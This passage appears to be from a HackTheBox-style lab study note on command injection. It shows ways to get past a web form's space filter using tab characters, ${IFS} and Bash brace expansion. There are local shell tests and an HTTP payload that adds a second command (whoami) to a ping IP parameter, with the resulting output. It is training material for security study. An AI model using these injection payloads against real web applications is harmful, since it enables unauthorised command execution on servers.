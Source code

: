 **Verification:** ✅ Successfully bypassed space filter using tab character.

### Method 2: Environment Variables ($IFS)

**Technique:** Use Linux Internal Field Separator environment variable

**Understanding $IFS:**
- **Default value** contains space and tab characters
- **Automatic expansion** replaces `${IFS}` with its value
- **Universal availability** on Unix/Linux systems

**Local Testing:**
```bash
# Verify IFS contains space and tab
kabaneridev@htb[/htb]$ echo "$IFS" | cat -A
 ^I$

# Test command with IFS
kabaneridev@htb[/htb]$ ls${IFS}-la
total 8
drwxr-xr-x 2 kabaneridev kabaneridev 4096 Jul 13 10:30 .
drwxr-xr-x 3 kabaneridev kabaneridev 4096 Jul 13 10:30 ..
```

**Web Application Implementation:**
```http
ip=127.0.0.1%0a${IFS}whoami
# URL encoded: ip=127.0.0.1%0a%24%7bIFS%7dwhoami
```

**Expected Response:**
```html
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
www-data
```

**Verification:** ✅ Successfully bypassed space filter using `${IFS}`.

### Method 3: Bash Brace Expansion

**Technique:** Use Bash brace expansion feature for automatic spacing

**Understanding Brace Expansion:**
- **Automatic separation** - Bash adds spaces between comma-separated values
- **No explicit spaces** - Command contains no space characters
- **Argument processing** - Each element becomes separate argument

**Local Testing:**
```bash
# Traditional command with spaces
kabaneridev@htb[/htb]$ ls -la

# Brace expansion equivalent (no spaces)
kabaneridev@htb[/htb]$ {ls,-la}
total 0
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 07:37 .
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 13:01 ..
```
